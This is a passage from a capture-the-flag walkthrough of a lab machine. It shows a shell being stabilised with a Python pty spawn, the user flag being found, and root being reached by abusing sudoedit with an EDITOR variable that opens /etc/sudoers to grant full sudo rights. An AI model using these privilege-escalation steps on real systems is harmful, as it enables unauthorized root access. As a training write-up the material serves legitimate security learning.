 ```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then,

```bash
export TERM=xterm
CTRL + z
stty raw -echo; fg
```

Now we have a stable shell with us. By listing the current directory, we see `user.txt` file.

We got our user flag.

**Next up:** Root machine & find the `root.txt` flag.

The very first thing to always check is by doing:

```bash
sudo -l
```

The `sudo -l` command displays a list of commands that the current user is allowed to run with sudo privileges on the system.

The user `web` that we have the shell currently can run this command with root privileges:

```
(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

On doing some more research, you can find the Sudoedit Privilege Escalation technique from the blog post:

[Sudoedit Privilege Escalation | Exploit Notes](https://exploit-notes.hdks.org)

We are going to use Step 1 from the article:

```bash
export EDITOR="vim -- /etc/sudoers"
```

We have exported the editor to VIM, now we are going to edit the `/etc/sudoers` file.

For this, we need to check our user, which is `web`.

Now we need to add user `web` to the sudoers list:

```
web ALL=(ALL:ALL) ALL
```

Now we are able to open the text editor VIM for editing the sudoers list.

Let’s use the command we found from `sudo -l`.

Now we can add the entry right next to the root entry:

```
web ALL=(ALL:ALL) ALL
```
